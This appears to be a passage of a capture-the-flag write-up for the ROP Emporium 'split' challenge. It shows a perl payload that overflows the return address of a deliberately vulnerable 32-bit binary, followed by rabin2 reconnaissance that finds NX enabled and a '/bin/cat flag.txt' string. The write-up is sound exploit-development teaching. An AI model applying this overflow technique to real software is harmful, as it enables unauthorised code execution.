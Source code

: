 # split
The challenge is available [here](https://ropemporium.com/challenge/split.html).

## Black-Box Test
Just like in the previous challenge, let's start by running the `split32` program with simple input, such as `ABCD`.

```
./split32
```
![](./0.png)

Similarly, the return value we want to overwrite is located at the same index as in the previous challenge.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./split32
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## Finding important details
As you might have guessed, this challenge also has NX protection enabled.

```
rabin2 -I split32 | grep nx
```
![](./3.png)

Therefore, we will proceed as in the previous challenge and try to find a function that can help us.

```
rabin2 -qs split32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

In fact, the command displays symbols, some of which may be functions, but not only. At this stage, we've found two interesting symbols: `usefulFunction` and `usefulString`. From their names, we can infer what they contain. Let's first check `usefulString`. If it is indeed a string, we can also find it by searching for interesting strings and identify it by its address.

```
rabin2 -z split32
```
![](./5.png)

As can be seen, the string called `usefulString` is located at address `0x0804a030`, and its content is `/bin/cat flag.txt`.

